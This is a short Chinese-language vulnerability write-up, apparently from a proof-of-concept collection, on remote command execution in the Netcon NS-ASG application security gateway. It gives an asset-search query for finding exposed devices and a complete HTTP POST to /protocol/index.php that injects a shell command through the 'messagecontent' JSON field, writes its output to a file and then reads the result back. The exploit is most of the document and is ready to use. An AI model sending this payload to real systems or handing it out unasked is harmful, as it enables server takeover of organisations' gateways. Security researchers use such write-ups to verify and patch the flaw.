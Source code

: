 # 网康 NS-ASG应用安全网关存在远程命令执行漏洞

# 一、漏洞简介
网康科技有限公司是中国技术领先的网络应用管理设备提供商，专注于网络应用管理领域最前沿的趋势研究和分析，为用户提供先进的网络应用管理技术、产品与解决方案，旨在帮助用户实现“上好网 用好网”的网络管理目标。网康应用安全网关系统存在远程命令执行漏洞，攻击者通过漏洞可以执行任意命令，导致服务器失陷。

# 二、影响版本
+ 网康应用安全网关系统

# 三、资产测绘
+ hunter`web.title=="网康 NS-ASG 应用安全网关"`
+ 特征

![1700039945096-d99e24a4-9e98-4951-b4bf-3ec53154e6be.png](./img/Q3wbZCP7nLEzpjt6/1700039945096-d99e24a4-9e98-4951-b4bf-3ec53154e6be-739231.png)

# 四、漏洞复现
1. 执行如下执行POC语句，同时执行id命令并写入/protocol/1.txt。

```plain
POST /protocol/index.php HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

jsoncontent={"protocolType":"getsysdatetime","messagecontent":"1;id>1.txt;"}
```

![1700040012683-b9714aa9-b738-429c-8700-a475eff2249d.png](./img/Q3wbZCP7nLEzpjt6/1700040012683-b9714aa9-b738-429c-8700-a475eff2249d-740368.png)

2. 访问`/protocol/1.txt`路径，获取命令执行结果。

```plain
/protocol/1.txt
```

![1700040060126-ae08016a-0a0f-4e4c-9821-38261430e5ce.png](./img/Q3wbZCP7nLEzpjt6/1700040060126-ae08016a-0a0f-4e4c-9821-38261430e5ce-691820.png)



> 更新: 2024-02-29 23:57:15  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zut666gci4d1s4sv>